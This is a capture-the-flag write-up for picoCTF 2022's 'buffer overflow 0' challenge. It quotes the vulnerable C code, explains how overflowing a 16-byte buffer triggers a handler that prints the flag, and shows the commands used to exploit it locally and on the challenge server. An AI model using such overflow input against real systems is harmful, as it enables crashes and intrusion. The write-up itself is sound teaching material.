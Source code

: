 # buffer overflow 0

- [Challenge information](buffer_overflow_0.md#challenge-information)
- [Solution](buffer_overflow_0.md#solution)

## Challenge information
```
Points: 100
Tags: picoCTF 2022, Binary Exploitation, gets
Author: ALEX FULTON / PALASH OSWAL

Description:

Smash the stack
Let's start off simple, can you overflow the correct buffer? 

The program is available here. You can view source here. And connect with it using:
nc saturn.picoctf.net 61481
 
Hints:
1. How can you trigger the flag to print?
2. If you try to do the math by hand, maybe try and add a few more characters. 
   Sometimes there are things you aren't expecting.
3. Run man gets and read the BUGS section. How many characters can the program really read?
```

## Solution

### Study the source code

The `main` function of the program look like this
```c
int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

This is a classic buffer overflow. The program sets up a signal handler catching `SIGSEGV` error conditions.
SigSegV means a signal for memory access violation, essentially trying to read or write from/to a memory area 
that your process does not have access to. This is also known as a segmentation fault.

When this happens the code in the `sigsegv_handler` is executed and tries to fix the problem or at least graciously quit the program.
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

Conveniently, in this case the code prints the flag for us.

There is also a `vuln` function with a rather small buffer
```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

If we overflow this buffer with more data than it can handle, we might write to the return address of the function stored on the stack. If that memory address is illegal when the program tries to return, we will cause a segmentation fault.

### Try exploitation locally 

Lets try to overflow the buffer locally first.
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ chmod +x vuln

┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ ./vuln
Please create 'flag.txt' in this directory with your own debugging flag.
```

Ah, that's right. We need a dummy flag for testing.
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ echo "picoCTF{Fake_Flag}" > flag.txt
                                          
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*20)" | ./vuln  
Input: picoCTF{Fake_Flag}
```

Success! We sent 20 bytes (slightly more than the buffer size of 16) and we got the flag.

### Connect to the server and get the flag

Finally, lets connect to the server and try to get the flag. If we don't succeed, we slight increse the input until we do.
```
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*20)" | nc saturn.picoctf.net 61481

Input:                             
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*25)" | nc saturn.picoctf.net 61481
Input:

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*30)" | nc saturn.picoctf.net 61481
Input: picoCTF{<REDACTED>}
```
